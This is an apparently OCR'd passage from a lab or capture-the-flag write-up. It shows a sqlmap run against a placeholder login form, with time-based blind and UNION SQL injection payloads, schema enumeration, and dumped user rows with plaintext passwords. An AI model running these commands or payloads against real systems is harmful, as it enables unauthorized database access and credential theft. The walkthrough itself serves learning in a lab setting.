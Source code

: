 ![image](https://github.com/user-attachments/assets/96515245-50c4-4f83-b37c-b15c4560e438)


<h3>sqlmap</h3>

```bash
:~# sqlmap -u 'http:/TargetI`P:8000/login' --form --batch --dump
        ___
       __H__
 ___ ___[']_____ ___ ___  {1.4.4#stable}
|_ -| . [)]     | .'| . |
|___|_  [.]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

...
[INFO] searching for forms
[#1] form:
POST http://TargetIP:8000/login
POST data: username=&password=
do you want to test this form? [Y/n/q] 
> Y
Edit POST data [default: username=&password=] (Warning: blank fields detected): username=&password=
...
[INFO] POST parameter 'username' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable
...
[INFO] 'ORDER BY' technique appears to be usable. This should reduce the time needed to find the right number of query columns. Automatically extending the range for current UNION query injection technique test
[INFO] target URL appears to have 4 columns in query
[INFO] POST parameter 'username' is 'Generic UNION query (NULL) - 1 to 20 columns' injectable
POST parameter 'username' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 61 HTTP(s) requests:
---
Parameter: username (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=RRZT' AND (SELECT 4623 FROM (SELECT(SLEEP(5)))EGuR) AND 'lCOj'='lCOj&password=

    Type: UNION query
    Title: Generic UNION query (NULL) - 4 columns
    Payload: username=RRZT' UNION ALL SELECT NULL,CONCAT(0x716a716a71,0x46574664504e437a77537556706d6750666f4e786d4b57764c537045774f63784e594c794f6b584f,0x716a6a6b71),NULL,NULL-- -&password=
---
do you want to exploit this SQL injection? [Y/n] Y
[INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 5.0.12
...
[INFO] retrieved: 'id','int'
[INFO] retrieved: 'username','varchar(255)'
[INFO] retrieved: 'password','varchar(255)'
[INFO] retrieved: 'email','varchar(100)'
[INFO] fetching entries for table 'users' in database 'website'                                               
[INFO] retrieved: '1','My_P@ssW0rd123','smokey@email.boop','smokey'
[INFO] retrieved: '2','password','researcher@m.com','researcher'
Database: website                                                                                                        
Table: users
[2 entries]
+------+-------------------+------------+----------------+
| id   | email             | username   | password       |
+------+-------------------+------------+----------------+
```